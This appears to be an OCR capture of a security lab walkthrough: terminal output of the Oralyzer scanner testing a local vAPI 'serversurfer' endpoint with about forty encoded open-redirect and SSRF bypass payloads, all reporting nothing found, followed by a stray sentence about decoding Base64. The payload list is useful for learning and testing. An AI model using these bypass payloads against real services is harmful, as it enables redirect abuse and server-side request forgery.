 ```
Oralyzer % python3 oralyzer.py -u http://127.0.0.1/vapi/serversurfer?url=

	Oralyzer

[!] Infusing payloads
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=http%253A%252F%252Fwww.google.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=https%253A%252F%252Fwww.google.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fwww.google.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=https%3Awww.google.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=google.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%5C%2F%5Cgoogle.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%5C%2Fgoogle.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2F%2Fgoogle.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=hthttp%3A%2F%2Ftp%3A%2F%2Fgoogle.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=x00http%3A%2F%2Fgoogle.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%5Cx20http%3A%2F%2Fgoogle.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=216.58.214.206
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=172.217.167.46
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F216.58.214.206
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2F%2F216.58.214.206
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%5C216.58.214.206
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F216.58.214.206
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2F216.58.214.206
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle%E3%80%82com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle%25E3%2580%2582com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=http%5Cx3A%5Cx2F%5Cx2Fgoogle.com
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2F%2Fgoogle.com%2F%252e%252e
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2Fgoogle.com%2F%252e%252e
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle.com%2F%252e%252e
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2Fgoogle.com%2F%252e%252e
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle.com%2F%252E%252E
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2F%2Fgoogle.com%2F%252e%252e%252f
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2Fgoogle.com%2F%252e%252e%252f
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle.com%2F%252e%252e%252f
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2F%2Fgoogle.com%2F%252f..
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2Fgoogle.com%2F%252f..
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle.com%2F%252f..
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle.com%2F%252F..
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2Fgoogle.com%2F%252F..
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2F%2Fgoogle.com%2F%252f%252e%252e
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2F%2Fgoogle.com%2F%252f%252e%252e
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle.com%2F%252f%252e%252e
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2Fgoogle.com%2F%252f%252e%252e
[-] Found nothing :: http://127.0.0.1/vapi/serversurfer?url=%2F%2Fgoogle.com%2F%2F%252F%252E%252E
```

Take the field's value payload and decode the Base64, preferably as text over hex format reveals a developer HTML site:
